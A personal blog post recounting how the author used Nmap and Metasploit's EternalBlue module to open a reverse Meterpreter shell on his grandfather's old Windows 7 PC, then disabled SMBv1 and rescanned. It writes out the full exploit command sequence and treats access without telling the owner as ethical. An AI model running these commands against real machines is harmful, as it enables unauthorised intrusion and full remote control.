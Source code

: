 ```yaml
---
title: "My First Successful Hack: Unlocking Grandpa’s Computer’s Secrets"
date: 2025-03-13 
categories: [Pentest, Nmap, Metasploit]
image: https://wallpapercg.com/download/hacker-3529x1960-22383.jpeg
alt: "wallpaper"
---
```


When I was a kid, I loved visiting my grandparents’ house. It wasn’t just about getting spoiled with snacks or hearing Grandpa’s never-ending stories from the good old days — it was about the one thing that stood out in their house like a glowing treasure: Grandpa’s old desktop PC. This wasn’t any sleek, modern machine, no sir. This was the ancient HP Compaq 6200 Pro SFF PC running Windows 7, a relic from another time that probably had more dust than RAM. But to me, it was a playground.

![Computer](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*yorbSwOch3edGqJCOz_iUA.jpeg)

I’d spend hours there, clicking away, playing all the classics — Solitaire, Minesweeper, and whatever else I could discover in the dusty folders on that old computer. It was the golden age of my digital childhood, and I had no idea that this humble machine would eventually be the subject of my first ethical hacking experiment.

Fast forward to 2020, when I started seriously diving into cybersecurity. I was reading books, watching tech news, and even starting my journey through Capture The Flag (CTF) challenges. That’s when I came across the infamous EternalBlue exploit, which really piqued my interest. If you’ve never heard of it, here’s the rundown: EternalBlue is an exploit that takes advantage of a vulnerability in Microsoft’s SMBv1 (Server Message Block) protocol, a system used to share files and printers over a network. This vulnerability was patched in March 2017, but it’s still out there on many unpatched systems.

![Computer](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*Kx9fgzGAH95FQCAXuOrTyA.jpeg)

Now, imagine me — fresh from my first CTF experience, all hyped up with my newfound knowledge — and then remembering Grandpa’s old PC sitting lonely in the corner of the room. Could it be? Could that ancient machine still be vulnerable to EternalBlue?

Let’s find out.

Just to clarify, the screenshots included in this post are not from my actual actions using Metasploit on Grandpa’s PC. These images are sourced from other people and are simply here to show you what the process looks like.

### Step 1: Scanning with Nmap
I was now armed with my ethical hacking toolkit, ready to make my move. The first step? Nmap. This is a network scanner that helps you discover what’s running on a machine and whether it’s vulnerable to any exploits.

I opened my terminal and ran the command:

```
nmap -p 445 --open --script smb-vuln-ms17-010 Grandpa's PC IP
```

For those of you not in the know, 445 is the port used for SMB, and the **`smb-vuln-ms17-010`** script is specifically designed to check if a system is vulnerable to the EternalBlue exploit (MS17-010). To my delight (and slight horror), it returned with a verdict that read something like:

```
445/tcp open  microsoft-ds
| smb-vuln-ms17-010: VULNERABLE
```

Well, well. Grandpa’s old machine was still running an outdated version of SMB, which meant it was vulnerable to EternalBlue.

![Vuln](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*vCRaOPmt5e0sYD2GQXtKYA.jpeg)

### Step 2: Launching the Metasploit Attack

At this point, I was grinning like a mad scientist in a lab. But let’s be real here: I wasn’t doing this for any nefarious purposes. I just had to know what would happen. I fired up Metasploit, the hacker’s tool of choice for exploiting vulnerabilities, and set up the EternalBlue exploit. It was time to see if I could access Grandpa’s old PC — legally, of course.

I entered the following command in the Metasploit console:
```
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <Grandpa's PC IP>
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <Your IP>
run
```
I was on the edge of my seat, fingers trembling. The screen was filled with messages, and then… bingo! The system was exploited, and I had a Meterpreter shell open, which gave me full control over Grandpa’s PC. I could see everything — the desktop, the files, the programs — and I had the ability to run commands as if I was physically sitting at the machine.

![Metasploit](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*DW2adbfzrYOJVsKFzWkkYg.jpeg)

![Metasploit](https://miro.medium.com/v2/resize:fit:640/format:webp/1*O3qi3l9ljMwoWkZ9YL5CqA.jpeg)

### Step 3: Patching the Vulnerability
Now that I had successfully accessed Grandpa’s old machine through the EternalBlue exploit, it was time to do what any responsible ethical hacker would do — patch the system and ensure it was secure. Grandpa didn’t need to know that his trusty old PC had been at risk. Here’s how I went about fixing things:

#### Option 1: Download and Install the Latest Windows Updates

The first step was to ensure that Grandpa’s PC was up-to-date with the latest security patches. This was the simplest option and would address not just the SMBv1 vulnerability but any other potential security holes.

- I navigated to Control Panel > Windows Update and clicked on Check for Updates.
- I allowed Windows to download and install any pending updates, including those related to SMBv1.
- After the updates installed, I restarted the PC to apply them.

#### Option 2: Change SMB Version to SMB2 or SMB3 Through the UI

Another approach to securing Grandpa’s PC was to upgrade the SMB protocol to a more secure version, like SMB2 or SMB3. Here’s how you can do that manually via the Windows Features UI:

- Open the Control Panel and go to Programs > Turn Windows features on or off.
- Scroll down to find SMB 1.0/CIFS File Sharing Support. Uncheck this option to disable SMBv1.
- Check the box next to SMB Direct (for SMB3 support) if it’s not already enabled.
- Click OK to apply the changes.
- Restart the PC.

![Windows Features](https://miro.medium.com/v2/resize:fit:640/format:webp/1*_riVnr5O-2jgqAYr_JQbaA.png)

This will disable the outdated and vulnerable SMBv1 protocol while leaving the more secure SMB2 and SMB3 protocols enabled, helping ensure better security.

#### Option 3: Disable SMBv1 via Command Line

If you prefer to disable SMBv1 through a command-line interface, here’s how you can do it using PowerShell:

1. Open PowerShell as an Administrator (right-click on the Start button, select Windows PowerShell (Admin)).
2. Run the following command to disable SMBv1:

```
Disable-WindowsOptionalFeature -Online -FeatureName smb1protocol
```

3. Once the command executes, restart the PC for the changes to take effect.

By disabling SMBv1, we ensured that the PC wouldn’t be vulnerable to the EternalBlue exploit or any similar attacks targeting that old protocol.

### Step 4: Test and Celebrate

After the restart, I ran the same Nmap scan again, just to make sure the vulnerability was gone:

```
nmap -p 445 --open --script smb-vuln-ms17-010 <Grandpa's PC IP>
```

To my relief, the scan now returned with no vulnerability. Grandpa’s PC was safe, and I could breathe easy knowing I’d responsibly explored my curiosity without causing any harm.

Final Thoughts
As I closed the terminal, I couldn’t help but smile. Who would’ve thought my childhood adventures on Grandpa’s old desktop PC would lead to my first real ethical hack? I didn’t just play games on that computer — I learned how to protect it from potential threats in the process.

Moral of the story? Always stay curious, never stop learning, and remember that even the oldest PCs can still teach you a thing or two (as long as you patch them afterward!).

---
